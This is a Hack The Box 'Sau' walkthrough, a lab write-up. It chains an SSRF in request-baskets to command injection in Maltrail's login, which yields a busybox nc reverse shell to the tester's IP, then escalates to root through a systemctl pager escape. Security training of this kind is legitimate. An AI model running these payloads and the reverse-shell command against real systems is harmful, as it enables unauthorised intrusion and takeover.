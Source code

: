 HTB "Sau" – Full Walkthrough (User ➜ Root)
🛰️ Step 1: Setup & Enumeration

We start by mapping the target in /etc/hosts for easier referencing:

sudo su
echo "10.10.11.224 sau.htb" >> /etc/hosts

Then, we begin with a classic full TCP port scan:

nmap -p- sau.htb

Open ports:

22/tcp     open     ssh  
80/tcp     filtered  
8338/tcp   filtered  
55555/tcp  open     http

Two ports (80 and 8338) are filtered, but we proceed with port 55555, which reveals a web service allowing us to create custom “baskets.”
🌐 Step 2: Request-Baskets SSRF Vulnerability

The site is running:

Powered by request-baskets | Version: 1.2.1

This version is known to be vulnerable to SSRF (Server-Side Request Forgery) during basket creation. The forward_url parameter lets us redirect internal requests to arbitrary ports.

We craft the following request to access the previously unreachable port 8338:

POST /api/baskets/new_basket
Content-Type: application/json

{
  "forward_url": "http://127.0.0.1:8338/",
  "proxy_response": true,
  "insecure_tls": false,
  "expand_path": true,
  "capacity": 200
}

Now, visiting the new basket URL forwards the request to localhost:8338, where we discover an interface for Maltrail.
🔎 Step 3: Exploiting Maltrail (Command Injection)

Googling Maltrail reveals it's an open-source network threat detection system. An exploit exists for the /login endpoint on this exact service:

    💥 CVE/PoC: huntr.dev - Maltrail RCE

The endpoint is vulnerable to command injection via the username parameter, which is passed directly into subprocess.check_output().

Initial PoC:

curl 'http://127.0.0.1:8338/login' --data 'username=;`id > /tmp/bbq`'

We adapt this to work via the SSRF basket:

curl http://sau.htb:55555/new_basket/login --data 'username=;`busybox nc 10.10.14.239 4444 -e bash`'

Note: Only limited binaries are available — busybox nc was the one that worked reliably.

Start a listener to catch the reverse shell:

python3 -m pwncat -lp 4444

🔥 Shell acquired as regular user.
🚀 Step 4: Privilege Escalation via systemctl

Running sudo -l reveals:

(ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service

We can run systemctl as root without a password. Based on GTFOBins - systemctl, this command opens in less, allowing classic privilege escalation.

Execute:

sudo /usr/bin/systemctl status trail.service

In the less prompt, type:

!bash

💥 Root shell achieved.
🎉 Flags Captured

    ✅ user.txt

    ✅ root.txt


